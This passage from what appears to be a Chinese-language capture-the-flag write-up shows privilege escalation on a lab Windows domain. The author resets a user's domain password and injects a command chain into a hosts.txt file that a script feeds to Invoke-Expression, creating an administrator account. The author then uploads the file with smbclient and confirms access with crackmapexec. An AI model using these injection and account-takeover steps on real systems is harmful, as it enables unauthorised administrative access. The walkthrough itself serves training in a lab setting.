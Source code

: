**scripts 文件夹包含一个名为 **checkservers.ps1** 的 PowerShell 脚本，用于检查位于“ *C:\Users\brittanycr\* 中的名为 **hosts.txt** 的文件，并将主机文件的内容传递给[**Invoke-Expression**](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.2)。**

**![](img/c59e3073f2b501a28ecbb265ef7dafbf.png)**

**PowerShell 脚本片段。**

**如果我们可以修改 hosts.txt 文件并包含一个添加新用户的命令，它将作为管理员执行。为此，我可以更改用户 **brittanycr** 的凭证，因为 buse 是 Account Operators 组的成员。**

```
*Evil-WinRM* PS C:\scripts> **net user brittanycr SecretPass1234 /domain**The command completed successfully.
```

**我无法使用 evil-winrm 与 **brittanycr** 用户建立远程连接。之前，我已经注意到可以通过 SMB 访问**用户**文件夹。我创建了一个新的 hosts.txt 文件，并包含一个命令，当执行该命令时，将添加一个名为**hack activities**的新用户。**

```
; net user hacktivities Pass1234$ /add; net localgroup Administrators hacktivities /add
```

**接下来，我使用 smbclient 通过 brittanycr 的凭证连接到用户共享，并从我的攻击机器上传新的 hosts.txt 文件。**

```
smbclient //10.10.252.35/Users -U brittanycr smb: \> cd brittanycr\
smb: \brittanycr\> dir
  .                           D        0  Sun May  3 00:36:46 2020
  ..                          D        0  Sun May  3 00:36:46 2020
  hosts.txt                   A       22  Sun May  3 14:44:57 2020smb: \brittanycr\> **put hosts.txt**
putting file hosts.txt as \brittanycr\hosts.txt (0.1 kb/s) (average 0.1 kb/s)
```

**为了检查用户黑客活动是否已经被添加，我可以使用 **crackmapexec** 来验证它的存在。**

```
crackmapexec smb windcorp.thm -u hacktivities -p Pass1234$
```

**![](img/11515f73c6908d2f592ec67e4860b787.png)**

**帐户已成功添加。**

**我可以看到帐户已成功添加。我现在可以使用 evil-winrm 登录并检索最终的标志。**
